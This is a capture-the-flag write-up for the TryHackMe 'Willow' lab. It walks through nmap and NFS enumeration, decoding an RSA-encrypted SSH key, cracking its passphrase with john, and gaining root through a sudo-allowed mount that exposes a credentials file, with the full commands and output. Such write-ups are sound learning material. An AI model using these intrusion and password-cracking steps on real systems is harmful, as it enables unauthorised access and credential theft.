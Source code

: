 ```yaml
---
title : Willow - Writeup
---
```


_**Jan 15, 2021**_

[Willow](https://tryhackme.com/room/willow) Writeup

## Nmap Scan :

```sh
bvr0n@kali:~/CTF/THM/Willow$ nmap -sC -sV 10.10.58.196
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33045/udp   mountd
|   100005  1,2,3      50247/tcp   mountd
|   100005  1,2,3      53104/udp6  mountd
|   100005  1,2,3      58466/tcp6  mountd
|   100021  1,3,4      35887/udp6  nlockmgr
|   100021  1,3,4      36539/tcp   nlockmgr
|   100021  1,3,4      45263/tcp6  nlockmgr
|   100021  1,3,4      45612/udp   nlockmgr
|   100024  1          42988/tcp   status
|   100024  1          47886/tcp6  status
|   100024  1          53120/udp6  status
|   100024  1          57397/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RPC Enum :

```sh
bvr0n@kali:~/CTF/THM/Willow$ sudo showmount -e 10.10.58.196
[sudo] password for bvr0n: 
Export list for 10.10.58.196:
/var/failsafe *
```
Apparently we have a shared folder, Let's mount it :
```sh
bvr0n@kali:~/CTF/THM/Willow$ sudo mount -t nfs 10.10.170.153:/var/failsafe /mnt/ewf/ -nolock
bvr0n@kali:/mnt/ewf$ cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

## Web Enum :

After visiting the web page we can see a lot of encoded numbers `(HEX)`, When we throw it all in [CyberChef](https://gchq.github.io/CyberChef/) we get this :
```
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
```

Now the shared folder make sens, it's a private key, let's get it!! i grabbed all the numbers after the message we retireved and head here [RSA Calculator](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html) :

The modulus `N` was `37627` & The modulus `d` was `61527` (from the shared folder).

After grabbing the `RSA_Private_KEY`, now all we need is the password ! CRACKING TIME.

```sh
bvr0n@kali:~/CTF/THM/Willow$ /usr/share/john/ssh2john.py id_rsa > priv_rsa
bvr0n@kali:~/CTF/THM/Willow$ sudo john priv_rsa --wordlist=/home/bvr0n/Documents/rockyou.txt
[sudo] password for bvr0n: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
**********       (id_rsa)
```

And we got the password for SSH, Let's login as `Willow`.

In the home directory there is a image that contains the flag, Let's get it :
```sh
willow@willow-tree:~$ cat user.jpg | base64
bvr0n@kali:~/CTF/THM/Willow$ cat b64_image | base64 -d > user.jpg
```
I took the original image and turn it into `base64`, then i created a new file and put it inside and decrypt it.

## Internal Enum :

Looks like we can mount as root without a password :
```sh
willow@willow-tree:/mnt/creds$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```
I checked the `/dev`, this is where filesystems show up, i noticed a pretty weird one :

```sh
willow@willow-tree:/dev$ ls
autofs           dri            kmsg                null    shm       
block            fb0            log                 port    snapshot  
btrfs-control    fd             loop-control        ppp     snd       
char             full           mapper              psaux   stderr    
console          fuse           mcelog              ptmx    stdin     
core             ******_******  mem                 p
```
```sh
willow@willow-tree:/mnt$ sudo mount /dev/******_****** /mnt/creds/
willow@willow-tree:/mnt$ cd /mnt/creds/
willow@willow-tree:/mnt/creds$ cat creds.txt 
root:7QvbvB********
willow:U0ZZJL********
```

And we got ROOT.

For the root flag, i struggled at first but apparently it was inside the image we retireved earlier -_-
```sh
bvr0n@kali:~/CTF/THM/Willow$ steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
```

Enjoy.
